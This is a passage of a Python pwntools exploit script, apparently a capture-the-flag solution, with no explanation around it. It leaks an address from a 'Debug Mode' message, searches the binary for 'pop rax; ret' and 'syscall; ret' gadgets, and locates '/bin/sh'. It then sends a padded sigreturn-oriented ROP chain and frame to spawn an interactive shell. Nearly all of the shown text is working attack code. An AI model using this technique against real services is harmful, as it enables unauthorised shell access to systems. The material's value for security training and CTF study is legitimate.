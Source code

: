 ```python

    p = start()
    pad = cyclic(16)
    p.recvuntil(b'Debug Mode Enabled; calling ')
    p.recvline()
    p.sendline(pad+chain+bytes(frame))
    p.interactive()

gadgets_start = e.sym['pop_rax']+4
p = start()
p.recvuntil(b'Debug Mode Enabled; calling ')
debug_mode = int(p.recvline(), 16)
p.close()

info("Starting pop rax gadget search between %s to %s" %(hex(gadgets_start),hex(debug_mode)))
pop_rax,syscall_ret = find_pop_rax()

info("[pop rax; ret] discovered at %s" % hex(pop_rax))
info("[syscall; ret] discovered at %s" % hex(syscall_ret))
bin_sh = next(e.search(b'/bin/sh'))
info("[/bin/sh] discovered at %s", hex(bin_sh))
srop_exec(pop_rax ,bin_sh, syscall_ret)
```

